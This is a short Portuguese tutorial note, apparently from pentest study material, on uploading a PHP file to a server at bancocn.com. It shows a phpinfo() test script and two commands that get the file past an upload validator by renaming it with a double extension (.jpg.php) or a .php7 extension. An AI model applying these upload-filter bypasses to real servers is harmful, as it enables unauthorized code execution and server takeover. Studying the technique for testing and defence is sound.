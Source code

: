 # Shell Upload - Invadindo o Servidor com Shell Reversa

    https://bancocn.com/show.php?id=dasdas
    https://bancocn.com/admin/uploads

Script php quer será enviado para o servidor e retornará informações do mesmo.

```php
<?php phpinfo(); ?>
```

#### Burlando a validação de formato de arquivo:

Uma das formas de burlar o validador de tipo de arquivo ao realizar um upload é alterando o nome do arquivo assim conseguindo enviar um arquivo `.php` de forma que seja lido como `.jpg` pelo validador

```bash
mv phpinfo.php phpinfo.jpg.php
```

Outra forma seria renomear a extensão do arquivo para outro, onde o burlamos o validador e ainda continuamos com um arquivo php executável:

```bash
mv phpinfo.php phpinfo.php7
```
